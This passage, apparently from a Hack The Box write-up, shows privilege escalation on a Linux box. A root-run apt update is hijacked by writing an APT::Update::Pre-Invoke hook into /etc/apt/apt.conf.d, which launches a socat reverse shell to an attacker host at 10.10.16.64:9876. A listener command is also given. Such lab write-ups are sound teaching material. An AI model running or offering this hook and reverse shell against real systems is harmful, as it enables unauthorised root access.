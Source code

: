 ```bash
# # Refresh AppStream cache when APT's cache is updated (i.e. apt update)
# APT::Update::Post-Invoke-Success {
#     "if /usr/bin/test -w /var/lib/command-not-found/ -a -e /usr/lib/cnf-update-db; then /usr/lib/cnf-update-db > /dev/null; fi";
# };
```

John doesn't have permission to update the repository, but there's a background
job running:

```bash
apt update
# Reading package lists... Done
# E: Could not open lock file /var/lib/apt/lists/lock - open (13: Permission denied)
ps -auxf | grep -ai apt
# root        5812  0.0  0.0   2608   604 ?        Ss   06:28   0:00      \_ /bin/sh -c /usr/bin/apt-get update
# root        5818  0.0  0.2  16204  8756 ?        S    06:28   0:00          \_ /usr/bin/apt-get update
# _apt        5824  0.0  0.2  21076  9592 ?        S    06:28   0:00              \_ /usr/lib/apt/methods/http
```

So we poison the apt update process with:

```bash
# test the vector
echo "APT::Update::Pre-Invoke {\"touch /home/john/heyhey\";};" > /etc/apt/apt.conf.d/00-default
# listen with: socat TCP-LISTEN:9876,reuseaddr FILE:`tty`,raw,echo=0
echo "APT::Update::Pre-Invoke {\"socat TCP4:10.10.16.64:9876 EXEC:bash,pty,stderr,setsid,sigint,sane\";};" > /etc/apt/apt.conf.d/00-default
```

And wait...

[author-profile]: https://app.hackthebox.eu/users/114053
[check-payload]: images/check-payload.png
[hacktricks-smtp]: https://book.hacktricks.xyz/pentesting/pentesting-smtp
[sqli]: images/sqli.png
[trigger-payload]: images/trigger-payload.png
[upload-image]: images/upload-image.png
